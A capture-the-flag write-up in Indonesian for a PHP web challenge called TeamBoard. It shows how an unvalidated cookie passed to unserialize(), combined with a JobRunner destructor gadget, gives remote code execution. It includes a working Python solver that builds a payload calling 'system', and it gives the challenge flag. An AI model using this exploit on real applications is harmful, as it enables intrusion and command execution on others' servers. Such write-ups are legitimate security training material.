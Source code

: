 ## TeamBoard
**Difficulty:** Medium
**Author:** moonetics
**URL:** [http://ctf.noctralupra.space:10311](http://ctf.noctralupra.space:10311) 

### Description
Tim IT kami baru saja merilis Teamboard, aplikasi internal untuk kolaborasi proyek dan sprint (login, dashboard, pengaturan preferensi, serta fitur admin sederhana seperti ekspor/impor). Versi ini masih tahap staging dan kami butuh bantuanmu untuk melakukan security review dan menemukan potensi bug/kerentanan web.

### Solution
Struktur web terdiri dari :
- `index.php` yang memuat `bootstrap.php` terlebih dahulu, kemudian routing berdasarkan method dan path
- Terdapat beberapa routes yang menarik: `/dashboard`, `/settings`, `/admin/export`, `/admin/import`

```php
<?php
spl_autoload_register(function($class){
  $prefix = 'App\\';
  $base = __DIR__ . '/';
  if (strncmp($prefix, $class, strlen($prefix)) !== 0) return;
  $rel = substr($class, strlen($prefix));
  $file = $base . str_replace('\\','/',$rel) . '.php';
  if (file_exists($file)) require $file;
});

ini_set('display_errors', 1);
error_reporting(E_ALL);

require __DIR__ . '/Core/helpers.php';
require __DIR__ . '/Core/Security.php';

App\Core\Middleware\UiPrefs::bootstrap();

session_start();
```

Pada `bootstrap.php`:
1. Autoloader diinisiasi
2. `helpers.php` dan `security.php` dimuat
3. `App\Core\Middleware\UiPrefs::bootstrap()` dipanggil sebelum `session_start()` dan eksekusi controller/route

```php
class Serializer {
  public static function pack($obj) { return base64_encode(gzdeflate(serialize($obj))); }
  public static function unpack($str) {
    if (!$str) return null;
    $raw = base64_decode($str, true);
    if ($raw === false) return null;
    $inflated = @gzinflate($raw);
    if ($inflated === false) return null;
    return @unserialize($inflated);
  }
}
```

Di helpers.php terdapat **App\Core\Serializer::unpack()**, yang melakukan operasi base64 decode lalu di-gzinflate kemudian di-unserialize:

```php
namespace App\Core\Middleware;
use App\Core\Serializer;
use App\Models\UiPreferences;

class UiPrefs {
  public static $prefs;
  public static function bootstrap() {
    if (isset($_COOKIE['UIPREF'])) {
      $obj = Serializer::unpack($_COOKIE['UIPREF']);
      if ($obj instanceof UiPreferences) {
        self::$prefs = $obj;
      } else {
        self::$prefs = new UiPreferences();
      }
    } else {
      self::$prefs = new UiPreferences();
    }
  }
}
```

**App\Core\Middleware\UiPrefs::bootstrap()** membaca `UIPREF` cookie dan secara langsung memanggil `Serializer::unpack($_COOKIE['UIPREF'])` tanpa validasi dan verifikasi yang aman. Dengan begitu, penggunaan `unserialize()` pada data UIPREF cookie yang hanya diproses melalui `base64_decode` dan `gzinflate` menjadi vuln yang ditargetkan.

```php
<?php
namespace App\Jobs;
class JobRunner {
  public $handler; public $payload; public $autoRun = true;
  public function __construct($handler = null, $payload = null){ $this->handler=$handler; $this->payload=$payload; }
  public function __destruct(){
    if ($this->autoRun && is_callable($this->handler)) { @call_user_func($this->handler, $this->payload); }
  }
}
```

**App\Jobs\JobRunner** (JobRunner.php):
- Mengandung `__destruct()` method yang mengeksekusi `@call_user_func($this->handler, $this->payload)` ketika `$autoRun === true`
- Perfect gadget for PHP Object Injection: Dengan membuat serialized JobRunner object yang mengandung `handler` dan `payload` properties, arbitrary functions tereksekusi ketika request berakhir (destructor dipanggil). Dengan `JobRunner::__destruct()` kemudian `call_user_func`, menggunakan handlers seperti `readfile`, `printf`, `system`, dapat dilakukan RCE.

Untuk alur exploitnya adalah seperti berikut:
1. **Build serialized PHP string:** `O:18:"App\Jobs\JobRunner":3:{s:7:"handler";s:N:"<callable>";s:7:"payload";s:M:"<arg>";s:7:"autoRun";b:1;}`
2. **Pack like server:**
   - Raw DEFLATE
   - Base64-encode the deflate result
3. **Set as UIPREF cookie**
4. **Access any endpoint** and read output at beginning of response

Dengan begitu, saya bisa membuat token UIPREF dengan solver berikut ini:

```python
import base64, zlib

HANDLER = "system"
PAYLOAD = "ls /"

def pack(s: str) -> str:
    co = zlib.compressobj(level=9, wbits=-15)
    comp = co.compress(s.encode("utf-8")) + co.flush()
    return base64.b64encode(comp).decode("ascii")

ser = (f'O:18:"App\Jobs\JobRunner":3:'
       f'{{s:7:"handler";s:{len(HANDLER)}:"{HANDLER}";'
       f's:7:"payload";s:{len(PAYLOAD)}:"{PAYLOAD}";'
       f's:7:"autoRun";b:1;}}')
uipref = pack(ser)
print(uipref)
```

![alt text](image.png)

Setelah nilai UIPREF diganti dengan hasil generate solver maka web akan meresponse dengan output dari payload RCE yang dimasukkan.

### Flag
NCLPS1{t3amb04rD_u1pr3f_oBj3ct_inj3ct1on_s3r1AlizE_dEFlat3_b4se64_7516d8bc52}
